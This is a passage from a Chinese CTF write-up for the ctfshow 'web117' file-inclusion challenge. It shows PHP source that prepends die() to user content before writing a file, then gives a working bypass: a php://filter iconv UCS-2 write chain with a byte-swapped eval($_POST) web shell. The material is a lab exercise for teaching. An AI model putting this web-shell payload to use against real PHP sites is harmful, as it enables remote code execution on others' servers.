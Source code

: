 是可以正常读文件的,那我们直接包含flag吧

![image-20220713114600610](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131146685.png?x-oss-process=hzy)

# web117

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

```
payload: file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php 

post:contents=?<hp pvela$(P_SO[T]1;)>?
```

![image-20220713115532139](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131155218.png?x-oss-process=hzy)

--------------------------

# 参考:

[ctfshow-web入门-文件包含-87-88 | Rolemee的小破站](https://rolemee.com/2021/07/24/ctfshow-web-ru-men-wen-jian-bao-han-87-88/#!)

[ctfshow web入门 78-88的文件包含 - CTFshow WP](https://wp.ctf.show/d/140-ctfshow-web-78-88)

[CTFshow---WEB入门---（文件包含）78-88 ，116,117 WP - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/84/)

[谈一谈php://filter的妙用 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
